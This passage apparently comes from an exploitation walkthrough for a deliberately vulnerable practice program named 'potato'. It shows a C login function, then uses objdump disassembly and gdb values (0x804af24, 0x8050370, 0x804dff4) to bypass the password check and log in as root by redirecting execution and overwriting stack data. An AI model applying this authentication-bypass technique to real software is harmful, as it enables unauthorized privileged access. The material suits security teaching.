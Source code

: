 ```c

    printf("searching for user ...\n");
    if((user = get_user_by_name(input_username)) == NULL)
    {
        fprintf(stdout, "no such user\n");
        return;
    }

    printf("checking password ...\n");
    if(check_password(user, input_password) == 1)
    {
        fprintf(stdout, "You are authorized.\n");
        session.logged_in_user = user;
        session.start_time = time(0);
        chdir(user->home);
    }
    else
    {
    	fprintf(stderr, "Authentication failure\n");
    }
}
```

However, there first part of the function, which does the authentication must be skipped since the password is
unknown. The function must be called starting with the `session.logged_in_user = user;` statement. The address
of that statement can be found, e.g. like this

```bash
$ objdump -Sd potato | grep -C5 -w "session.logged_in_user = user;"
 804af13:       6a 01                   push   $0x1
 804af15:       8d 83 bd e6 ff ff       lea    -0x1943(%ebx),%eax
 804af1b:       50                      push   %eax
 804af1c:       e8 cf e1 ff ff          call   80490f0 <fwrite@plt>
 804af21:       83 c4 10                add    $0x10,%esp
        session.logged_in_user = user;
 804af24:       8b 45 f4                mov    -0xc(%ebp),%eax
 804af27:       89 83 1c 01 00 00       mov    %eax,0x11c(%ebx)
        session.start_time = time(0);
 804af2d:       83 ec 0c                sub    $0xc,%esp
 804af30:       6a 00 
```

The address is `0x804af24`. The first assembly statement writes the content of `(%ebp - 0xc)` into `%eax`. After
that statement, `%eax` holds the right hand side of the assignment statement. The address of the desired `root`
user can be found out by putting a breakpoint after `init()` was called, then by issuing `p user_list->head->user`,
which yieds `0x8050370`. That value must be copied onto `(%ebp - 0xc)`.

The left hand side of the assignment is `%ebx + 0x11c`. To find out the content of `%ebx`, set a breakpoint at 
the assignment statement, run `potato` normally and print the register content: `p $ebx`, which yields `0x804dff4`.
